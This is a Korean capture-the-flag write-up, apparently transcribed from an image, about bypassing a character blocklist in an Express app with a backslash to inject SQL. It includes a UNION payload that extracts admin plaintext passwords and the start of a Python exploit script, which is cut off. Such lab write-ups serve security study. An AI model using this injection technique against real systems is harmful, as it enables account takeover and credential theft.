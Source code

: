 ```js
    return (req, res, next) => {
      for (name of params) {
        const value = req.body[name];
        if (typeof value != "string") return res.sendStatus(400);

        if (STRICT.some((v, i) => value.includes(v)))
          return res.sendStatus(400);
      }
      return next();
    };
  else
    return (req, res, next) => {
      return next();
    };
};
```

애플리케이션은 `'`, `-`, `/`, `\*`, `=` 문자가 포함되어 있는지 검사하고, 발견되면 400을 반환합니다.
하지만 `\` 문자는 차단하지 않았기 때문에 이를 악용할 수 있습니다.

예를 들어, 다음과 같은 쿼리를 보낼 수 있습니다:

```sql
SELECT id, username, email, role, created_at
FROM users
WHERE username='\' AND email='EMAIL'
```

여기서 `\` 문자는 따옴표를 escape하여 `username='\' AND email=`까지를 하나의 문자열로 처리하게 만듭니다. 이후 이어지는 `EMAIL` 부분에서 문자열 구문을 벗어나면서 email 값에 원하는 SQL을 주입할 수 있게 됩니다.

plain_password를 구하기 위해서 Union을 사용하여 구할 수 있습니다.

```
username : \
email : and 0 union select id, username, plain_password, role, created_at from users where username like \"admin\";#
```

이후 admin으로 로그인하여 FLAG를 읽어오면 됩니다.

## Exploit

````py
import requests as req

url = 'http://localhost:3000'

with req.Session() as r:
    res = req.post(f'{url}/api/auth/register', json={
        'username': 'guest',
        'password': 'guest',
        'email': 'guest@gmail.com'
    })

    res = req.post(f'{url}/api/auth/login', json={
        'email': 'guest@gmail.com',
        'password': 'guest'
    })
    token = res.json().get('token')
    headers = {
        "authorization": f"Bearer {token}"
    }

    res = req.post(f'{url}/api/admin/dev', json={
        "username": "\\",
````